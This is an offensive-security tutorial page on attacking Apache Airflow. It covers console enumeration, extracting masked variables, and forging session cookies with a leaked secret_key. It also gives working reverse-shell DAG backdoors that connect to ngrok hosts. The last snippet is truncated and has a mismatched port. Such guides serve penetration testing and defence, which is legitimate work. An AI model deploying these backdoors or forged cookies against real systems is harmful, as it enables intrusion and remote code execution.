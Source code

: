# Apache Airflow Security

{{#include ../../banners/hacktricks-training.md}}

### Basic Information

[**Apache Airflow**](https://airflow.apache.org) serves as a platform for **orchestrating and scheduling data pipelines or workflows**. The term "orchestration" in the context of data pipelines signifies the process of arranging, coordinating, and managing complex data workflows originating from various sources. The primary purpose of these orchestrated data pipelines is to furnish processed and consumable data sets. These data sets are extensively utilized by a myriad of applications, including but not limited to business intelligence tools, data science and machine learning models, all of which are foundational to the functioning of big data applications.

Basically, Apache Airflow will allow you to **schedule the execution of code when something** (event, cron) **happens**.

### Local Lab

#### Docker-Compose

You can use the **docker-compose config file from** [**https://raw.githubusercontent.com/apache/airflow/main/docs/apache-airflow/start/docker-compose.yaml**](https://raw.githubusercontent.com/apache/airflow/main/docs/apache-airflow/start/docker-compose.yaml) to launch a complete apache airflow docker environment. (If you are in MacOS make sure to give at least 6GB of RAM to the docker VM).

#### Minikube

One easy way to **run apache airflo**w is to run it **with minikube**:

```bash
helm repo add airflow-stable https://airflow-helm.github.io/charts
helm repo update
helm install airflow-release airflow-stable/airflow
# Some information about how to aceess the web console will appear after this command

# Use this command to delete it
helm delete airflow-release
```

### Airflow Configuration

Airflow might store **sensitive information** in its configuration or you can find weak configurations in place:

{{#ref}}
airflow-configuration.md
{{#endref}}

### Airflow RBAC

Before start attacking Airflow you should understand **how permissions work**:

{{#ref}}
airflow-rbac.md
{{#endref}}

### Attacks

#### Web Console Enumeration

If you have **access to the web console** you might be able to access some or all of the following information:

- **Variables** (Custom sensitive information might be stored here)
- **Connections** (Custom sensitive information might be stored here)
  - Access them in `http://<airflow>/connection/list/`
- [**Configuration**](#airflow-configuration) (Sensitive information like the **`secret_key`** and passwords might be stored here)
- List **users & roles**
- **Code of each DAG** (which might contain interesting info)

#### Retrieve Variables Values

Variables can be stored in Airflow so the **DAGs** can **access** their values. It's similar to secrets of other platforms. If you have **enough permissions** you can access them in the GUI in `http://<airflow>/variable/list/`.\
Airflow by default will show the value of the variable in the GUI, however, according to [**this**](https://marclamberti.com/blog/variables-with-apache-airflow/) it's possible to set a **list of variables** whose **value** will appear as **asterisks** in the **GUI**.

![](<../../images/image (164).png>)

However, these **values** can still be **retrieved** via **CLI** (you need to have DB access), **arbitrary DAG** execution, **API** accessing the variables endpoint (the API needs to be activated), and **even the GUI itself!**\
To access those values from the GUI just **select the variables** you want to access and **click on Actions -> Export**.\
Another way is to perform a **bruteforce** to the **hidden value** using the **search filtering** it until you get it:

![](<../../images/image (152).png>)

#### Privilege Escalation

If the **`expose_config`** configuration is set to **True**, from the **role User** and **upwards** can **read** the **config in the web**. In this config, the **`secret_key`** appears, which means any user with this valid they can **create its own signed cookie to impersonate any other user account**.

```bash
flask-unsign --sign --secret '<secret_key>' --cookie "{'_fresh': True, '_id': '12345581593cf26619776d0a1e430c412171f4d12a58d30bef3b2dd379fc8b3715f2bd526eb00497fcad5e270370d269289b65720f5b30a39e5598dad6412345', '_permanent': True, 'csrf_token': '09dd9e7212e6874b104aad957bbf8072616b8fbc', 'dag_status_filter': 'all', 'locale': 'en', 'user_id': '1'}"
```

#### DAG Backdoor (RCE in Airflow worker)

If you have **write access** to the place where the **DAGs are saved**, you can just **create one** that will send you a **reverse shell.**\
Note that this reverse shell is going to be executed inside an **airflow worker container**:

```python
import pendulum
from airflow import DAG
from airflow.operators.bash import BashOperator

with DAG(
    dag_id='rev_shell_bash',
    schedule_interval='0 0 * * *',
    start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
    run = BashOperator(
        task_id='run',
        bash_command='bash -i >& /dev/tcp/8.tcp.ngrok.io/11433  0>&1',
    )
```

```python
import pendulum, socket, os, pty
from airflow import DAG
from airflow.operators.python import PythonOperator

def rs(rhost, port):
    s = socket.socket()
    s.connect((rhost, port))
    [os.dup2(s.fileno(),fd) for fd in (0,1,2)]
    pty.spawn("/bin/sh")

with DAG(
    dag_id='rev_shell_python',
    schedule_interval='0 0 * * *',
    start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
    run = PythonOperator(
        task_id='rs_python',
        python_callable=rs,
        op_kwargs={"rhost":"8.tcp.ngrok.io", "port": 11433}
    )
```

#### DAG Backdoor (RCE in Airflow scheduler)

If you set something to be **executed in the root of the code**, at the moment of this writing, it will be **executed by the scheduler** after a couple of seconds after placing it inside the DAG's folder.

```python
import pendulum, socket, os, pty
from airflow import DAG
from airflow.operators.python import PythonOperator

def rs(rhost, port):
    s = socket.socket()
    s.connect((rhost, port))
    [os.dup2(s.fileno(),fd) for fd in (0,1,2)]
    pty.spawn("/bin/sh")

rs("2.tcp.ngrok.io", 14403)

with DAG(
    dag_id='rev_shell_python2',
    schedule_interval='0 0 * * *',
    start_date=pendulum.datetime(2021, 1, 1, tz="UTC"),
) as dag:
    run = PythonOperator(
        task_id='rs_python2',
        python_callable=rs,
        op_kwargs={"rhost":"2.tcp.ngrok.io", "port": 144}
```

#### DAG Creation

If you manage to **compromise a machine inside the DAG cluster**, you can create new **DAGs scripts** in the `dags/` folder and they will be **replicated in the rest of the machines** inside the DAG cluster.

#### DAG Code Injection

When you execute a DAG from the GUI you can **pass arguments** to it.\
Therefore, if the DAG is not properly coded it could be **vulnerable to Command Injection.**\
That is what happened in this CVE: [https://www.exploit-db.com/exploits/49927](https://www.exploit-db.com/exploits/49927)

All you need to know to **start looking for command injections in DAGs** is that **parameters** are **accessed** with the code **`dag_run.conf.get("param_name")`**.

Moreover, the same vulnerability might occur with **variables** (note that with enough privileges you could **control the value of the variables** in the GUI). Variables are **accessed with**:

```python
from airflow.models import Variable
[...]
foo = Variable.get("foo")
```

If they are used for example inside a a bash command, you could perform a command injection.

{{#include ../../banners/hacktricks-training.md}}



